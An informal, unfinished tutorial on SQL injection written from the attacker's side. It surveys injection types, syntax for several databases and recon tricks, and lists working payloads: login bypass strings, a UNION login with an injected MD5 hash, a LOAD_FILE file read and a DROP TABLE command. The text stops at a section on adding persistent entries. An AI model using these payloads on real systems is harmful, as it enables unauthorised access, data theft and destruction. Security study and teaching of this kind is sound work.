 ## SQL is a common database used for storage and management of user data, but it has its flaws. Let’s go through how attackers can realistically attack a database:

	0. Types of SQL injection
So, you wanna sql huh? First, familiarise yourself with the general workflow of sql and where it’s applicable.
Type	Application	Description
Auth bypass SQL	Used on login forms, both on username and password forms	Attempts to bypass the account checks in place to gain unauthorised access to login only content or pages.
Database exhilaration SQL, or UNION-based SQL	Used on filter forms and sometimes login forms	Attempts to make the server return the whole database of users or unhashed/hashed passwords, commonly used in data leaks.
Error-inducing sql	Used in all forms when an error message is displayed	Gain information on the names of databases, details of tables and columns in order to enable the other types of sql
Blind SQL	SQL but you can’t see the output	Usually when SQL is verified on the server and returns a generic error message, requires advanced techniques such as time-based SQL. The general idea is to keep asking true/false questions (where if its false you try dividing by 0) and looking out for errors in order to piece together the database name. From there, attackers can insert new rows into that database or even delete existing data.
Time-based SQL	Using the SLEEP() Function (M) or the WAITFOR DELAY (S), attackers can delay a response if a condition is true	Very helpful for blind SQL where you can’t see any outputs

Types of SQL systems
Shorthand	Name	Description
M	MySQL	
S	SQLserver	
P	PostgreSQL	
O	Oracle	
L	SQLite	
+	Others	

SQL Syntax

Syntax	Databases applicable	Function
 —	SMPOL	Line comment
#	M	Line comment
/*Comment here*/	SMPOL	In-line comment
/*! MySQL special format */	M	In-line comment
+	S	String concatenation, for backend recon
||	*MO [For MySQL, it only works if it’s running in ANSI mode or it’ll be treated as a logical operator]	String concat
CONCAT(str1 + str2)	M	String concat but better for this use case
ASCII(’a’)	SMPO	Returns ASCII value of character. Must-have for blind SQL
CHAR(64)	SM	Returns char from ASCII value
CHR(64)	P	Returns char from ASCII value
ALL_TABLES	O	Returns all tables
ALL_TAB_COLUMNS	O	Returns all tab columns
UNION ALL	SMPOL	Includes all rows and doesn’t remove duplicates like UNION does


*Note: 10; DROP TABLE members /*
This example uses in-line comments to get rid of everything behind it.

NOSQL

NoSQL, or Not only SQL, is a more advanced…
	
	1. Reconnaissance

Attackers have a multitude of tools which they can use, but the main one is sqlmap. In this phase, you throw whatever you have at a form and pray for results. 

For one, SELECT /*! 32302 1/0, */ 1 FROM tablename throws a division by 0 error if MySQL version is higher than 3.23.02. Note that this specifically only works for MySQL as the comment syntax would throw syntax for every other SQL language.

IF statements can also be used to gather info on SQL databases.

MySQL If	IF(condition, true-part, false-part)
SQL server If	If (condition) true-part ELSE false-part
Oracle IF	IF condition THEN true-part; ELSE false-part; END IF; END:
PostgreSQL If	SELECT CASE WHEN condition THEN true-part ELSE false-part END;
SQLite If	iif(condition, true-part, false-part) [YES there are 2 ‘i’s lol]
These if-statements can also be used to throw errors in blind-sql for recon.

	2. Crafting the payload
	
Assume you have a login forum, we can reasonably assume that they are using an sql query somewhat like “SELECT * FROM database WHERE username=‘[username]’ and password = ’[password]’ “. Now, we are gonna test some common sql queries to probe the database.

First, let’s understand the basic SELECT syntax.

SELECT column1, column2, … FROM table_name;

E.g.) SELECT username, password FROM users;

From here, we can try replacing column1 or other columns with NULL (which returns true for everything, kinda like a wildcard) to probe the system.

	1. The ‘ OR 1=1;—
This query, when injected into the username field, produces a query that looks like SELECT * FROM database WHERE username=‘’ OR 1=1;—‘ and password = ’[password]’. For some databases, the ; serves as a separator and — comments out everything that follows, and since 1=1 is always true, the attacker is granted access.

However, this might not always hold through as the syntax is different for other sql databases [Insert info], where ; might cause errors as its used to mark the end of the query. Hence, we need to continue probing and trying other common payloads.

	2. The ‘ OR 1=1 OR ‘’=‘
This one seems similar to the first one, let’s see what happens when we inject it into the original query. SELECT * FROM database WHERE username=‘’ OR 1=1 OR ‘’=‘’ and password = ’[password]’
As you can see, this does not involve any ; or — comments, which could avoid possible errors faced when using the first query. This one has usually higher better compatibility and a higher chance of success.

Here are a few others you can try for different backends:
	- Admin’ --
	- Admin’ #
	- Admin’/*
	- ‘ or 1=1--
	- ‘ or 1=1#
	- ‘ or 1=1/*
	- ‘) or ‘1’ = ‘1--
	- ‘) or (‘1’=‘1--
Can you understand what these do respectively?

Alternatively, you can try logging in as another user (SM*):
‘ UNION SELECT NULL, ‘anotheruser’, ‘possibleotheruser’, 1–

	3. Managing and dealing with errors
Bypassing filters Integers

0xHEXNUMBERS (SM)
SELECT CHAR(0x66) (M) 
SELECT 0x5045 (M) A string converted from hex value
SELECT 0x50 + 0x45 Now it’s an integer~!
E.g.) SELECT LOAD_FILE(0x663A5C626F6F742E696E69) returns the content of c:\boot.ini

Language issues in UNION injections
	- For SQL Servers (S), try fieldname COLLATE SQL_Latin1_General_Cp1254_CS_AS
		E.g.) SELECT header FROM news UNION ALL SELECT name COLLATE SQL_Latin1_General_Cp1254_CS_AS FROM members
		
	- MySQL (M): Use Hex() for encoding issues

Login screens that check for MD5 hash:
Username: admin’ AND 1=0 UNION ALL SELECT ‘admin’, ‘81dc9bdb52d04dc20036dbd8313ed055’
Password: 1234

Explanation:
The 1=0 ensures the first part always returns false, negates original query and only focuses on the UNION part
ALL - Unike UNION, this doesn’t remove duplicate roles
SELECT - Selects 2 columns, username and password hash with the hash of the password you desire to inject as. This query, if not properly sanitized, would be executed and appends the selected values into the database. Now, the server would compare your password has with the provided one rather than the one in the database.

	4. Modifying the database

Now, you want your own entry added for persistence 
